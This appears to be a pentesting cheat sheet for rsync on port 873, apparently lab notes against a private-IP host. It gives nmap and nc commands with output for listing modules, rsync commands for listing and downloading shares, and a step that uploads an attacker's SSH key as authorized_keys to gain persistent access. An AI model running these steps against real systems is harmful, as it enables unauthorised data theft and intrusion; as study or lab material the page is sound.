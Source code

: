 # RSync
-------
port 873

Listing shares using nmap
```bash
nmap -sV --script "rsync-list-modules" -p 873 192.168.121.126
```

Listing shares using nc
```bash
❯ nc -vn 192.168.121.126 873                   
Connection to 192.168.121.126 873 port [tcp/*] succeeded!
@RSYNCD: 31.0
@RSYNCD: 31.0
#list
fox            	fox home
@RSYNCD: EXIT

❯ nc -vn 192.168.121.126 873                                                               
Connection to 192.168.121.126 873 port [tcp/*] succeeded!
@RSYNCD: 31.0
@RSYNCD: 31.0
fox
@RSYNCD: OK
```

Using rsync utility
listing files and directories in the share
```bash
rsync -av --list-only rsync://192.168.121.126/fox
```

downloading the share
```bash
rsync -av rsync://192.168.121.126:873/fox ./shared
```

rsync with authentication
```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name

# password will be prompted

rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

uploading ssh keys (authorized_keys) via rsync
```bash
# after generating a public key, rename it to authorized_keys
rsync -av /tmp/.ssh rsync://fox@192.168.121.126/fox
```
-----------
